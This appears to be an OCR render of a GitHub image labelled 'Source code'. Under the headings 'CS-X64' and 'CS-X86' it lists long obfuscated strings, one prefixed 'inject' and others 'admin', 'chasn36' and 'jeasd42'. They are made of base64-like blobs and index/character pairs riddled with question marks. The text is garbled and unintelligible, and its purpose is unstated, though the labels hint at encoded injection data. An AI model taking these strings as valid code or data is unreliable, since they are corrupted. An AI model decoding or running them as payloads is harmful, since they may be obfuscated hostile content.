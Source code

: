 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

admins3???4|2,?w;6,B?;10?,a;?14,.;?18,??5;2?2???,0;??2????6,b??;30??,0;???34????,3;3??8????,e;????42??,m;???46,i??;50,R??;???54?,R;??58,H;????62?,0;6?6,g;????70,??%;74??,V;78??,W;82??,V;86???,j;???90,??%;???94??,x?;98,??b?;???1???02?,b;1???0?6,c;1????1????0,g;??11??4,L;1??18??,b;??122,??t;?126,h??;????130,u?;134,???m;|hA??r??wC?0h????B6m?la9???YY.??xy???C5z???U2???0?0LA???bvh?I0??xDn???3CL????Me?V???nBmr????NLi????NBqRy???U2R?T9???lH1??0???50gD???vgD??Ze%Vn?DV5w0??W????wlvV??zUYj?09z%???n????x????0x3lj?bzL??NbV?m?AcvgH?ghz??mL?BVwb?PfB????t??9???IThxE????r??uCL3m?=qqregred

chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv


jeasd42|2,?0;????6,I???;1??0,?r;1?4?,w;18???,,;22??,O??;26,???J;3???0,d;????34,??f;38,??P;42??,5?;????46,g??;??50,2??;54,e????;5????8??,y;6??2,e;6???6??,p;7??0,V??;??74,?7;7??8??,m;82????,?h???;86,??x;9??0,c???;94,l???;9?8,L;????102,??o;1?06,0?;11???0,???%??;11????4,3;???118,s????;12????2,???J;??12??6,8;1????30,%;????134,??F;138??,j;1???42?,M;1??46,????A???;????1????50?,G??;154???,Y;1????58,3????;16????2,q;1??66,???S;??|????hA??r???0C0h??I??6ml???r????9YYwx?yC,z?U2O???0?LAJ??vhId????xD?n?f????CLMPV?nB5rN??LgN?Bq????2yU2????eT9???ly???105??egD??vpD?ZeVV?nD75w?0mw???l??vhz????UYx09???zcn???x0????l3ljL?z???LNoV???mA0v????g????H???%?hz??m?3BV????w????sPf???B??J?9IT8x???Er%?CL3Fi????qJj???Sq???uMjc??qAgla???Gv?I?cYZ4?A3VC????e???q???eOG??S????=????=wefa

